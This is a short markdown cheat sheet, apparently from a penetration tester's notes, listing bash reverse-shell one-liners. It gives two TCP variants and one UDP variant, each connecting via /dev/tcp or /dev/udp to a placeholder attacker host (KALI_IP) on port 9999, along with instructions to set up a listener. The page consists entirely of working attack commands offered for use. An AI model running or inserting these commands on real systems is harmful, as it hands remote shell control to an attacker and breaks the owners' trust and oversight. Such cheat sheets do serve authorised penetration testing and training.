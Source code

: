 ```yaml
---
title: Bash Reverse Shells
tags:
  - shells/reverse/bash
category:
  - reverse-shells
  - linux
share: true
date: 2024-12-15
---
```


## Bash TCP Reverse Shell
These TCP reverse shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a TCP Listener.

```bash
sh -i >& /dev/tcp/KALI_IP/9999 0>&1
```

```bash
0<&196;exec 196<>/dev/tcp/KALI_IP/9999; sh <&196 >&196 2>&196
```
## Bash UDP Reverse Shell
The UDP shells will attempt to make a connection to your KALI machine using port 9999. Make sure to setup a UDP Listener.

```bash
sh -i >& /dev/udp/KALI_IP/9999 0>&1
```

